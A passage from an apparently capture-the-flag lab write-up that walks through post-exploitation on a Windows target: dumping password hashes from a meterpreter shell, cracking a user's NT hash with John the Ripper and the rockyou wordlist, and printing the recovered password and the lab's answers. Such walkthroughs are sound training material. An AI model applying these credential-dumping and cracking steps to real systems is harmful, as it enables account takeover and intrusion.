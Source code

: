 #### 4.1 - Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?&#x20;

<figure><img src="../.gitbook/assets/Schermata del 2023-06-05 22-33-23.png" alt=""><figcaption></figcaption></figure>

> Jon

#### 4.2 - Copy this password hash to a file and research how to crack it. What is the cracked password?

```bash
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jon_hash.txt
```

We copy this hash and crack it using John The Ripper while using rockyou.txt wordlist.

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jon_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)     
1g 0:00:00:00 DONE (2023-06-05 22:39) 1.369g/s 13973Kp/s 13973Kc/s 13973KC/s alr19882006..alpusidi
```

Jon's credentials are `jon`:`alqfna22`

> alqfna22

### Task 5 - Find flags!

#### 5.1 - Flag1? _This flag can be found at the system root._&#x20;

As we have a meterpreter shell we could search for a file on the system.

We start by changing our directory to C:/ (root of system). We find the flag1.txt in the system root.

```bash
cd C:\\
dir
cat flag1.txt
```

<details><summary>🚩Reveal Flag1</summary></details>

